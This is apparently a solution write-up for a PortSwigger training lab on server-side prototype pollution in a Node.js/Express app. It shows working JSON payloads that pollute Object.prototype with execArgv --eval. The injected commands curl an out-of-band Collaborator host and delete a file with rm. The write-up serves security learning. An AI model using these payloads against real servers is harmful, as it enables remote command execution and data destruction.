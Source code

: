 # Remote code execution via server-side prototype pollution

[This lab](https://portswigger.net/web-security/prototype-pollution/server-side/lab-remote-code-execution-via-server-side-prototype-pollution) is built on Node.js and the Express framework. It is vulnerable to server-side prototype pollution because it unsafely merges user-controllable input into a server-side JavaScript object.

Due to the configuration of the server, it's possible to pollute `Object.prototype` in such a way that arbitrary system commands can be injected, that are executed on the server.

## Reproduction

### Study the address change feature

1. Log in with `wiener:peter` and visit the account page. Submit the form for updating your billing and delivery address.
2. In Burp, go to the **Proxy -> HTTP history** tab and find the `POST /my-account/change-address` request.
3. When submitting the form, the data from the fields is sent to the server as JSON. The server responds with a JSON object that appears to represent your user. This has been updated to reflect the new address information.
4. Send the request to Burp Repeater.

### Identify a prototype pollution source

1. In Repeater, add a new property to the JSON with the name `__proto__`, containing an object with a json spaces property.

```text
"__proto__": {
    "json spaces":10
}
```

2. Send the request.
3. In the Response panel, switch to the Raw tab. Notice that the JSON indentation has increased based on the value of your injected property. This strongly suggests that you have successfully polluted the prototype.

### Probe for remote code execution

1. In the browser, go to the admin panel and observe that there's a button for running maintenance jobs.
2. Click the button and observe that this triggers background tasks that clean up the database and filesystem. This is a classic example of the kind of functionality that may spawn node child processes.
3. Try polluting the prototype with a malicious execArgv property that adds the --eval argument to the spawned child process. Use this to call the execSync() sink, passing in a command that triggers an interaction with the public Burp Collaborator server. For example:

```text
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
}
```

4. Send the request.
5. In the browser, go to the admin panel and trigger the maintenance jobs again. Notice that these have both failed this time.
6. In Burp, go to the **Collaborator** tab and poll for interactions. Observe that you have received several DNS interactions, confirming the remote code execution.

### Craft an exploit

1. In Repeater, replace the curl command with a command for deleting Carlos's file:

```text
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```

2. Send the request.
3. Go back to the admin panel and trigger the maintenance jobs again. Carlos's file is deleted and the lab is solved.

## Exploitability

The command execution sink is only invoked when an admin user triggers vulnerable functionality on the site. An attacker will need to already have escalated privileges, giving access to admin functionality; find a prototype pollution source that can be used to add arbitrary properties to the global `Object.prototype`; identify a gadget that can be used to inject and execute arbitrary system commands; and trigger remote execution of a command that deletes the file `/home/carlos/morale.txt`. 
